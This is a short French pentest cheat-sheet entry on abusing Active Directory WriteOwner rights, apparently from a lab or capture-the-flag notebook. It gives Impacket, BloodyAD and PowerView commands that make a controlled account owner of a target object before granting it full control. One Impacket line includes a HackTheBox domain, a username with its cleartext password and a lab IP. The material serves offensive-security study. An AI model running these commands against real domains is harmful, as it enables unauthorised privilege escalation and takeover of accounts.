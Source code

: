
> [!TIP]
> Définir un nouveau propriétaire pour l'objet, puis donner les droits "FullControl" pour avoir le contrôle total de l'objet [[2. WriteDACL (Grant Rights - GenericAll)]]

## LINUX
### *Impacket*

```bash
impacket-owneredit -action write -new-owner 'judith.mader' -target 'management' 'certified.htb/judith.mader:judith09' -dc-ip 10.10.11.41
```

### *BloodyAD*

```bash
bloodyAD --host $dcip -d $domain -u $user -p $PASSWORD set owner $TargetObject $ControlledPrincipal
```


## WINDOWS


### PowerView

```Powershell
Set-DomainObjectOwner -Identity 'target_object' -OwnerIdentity 'controlled_principal'
```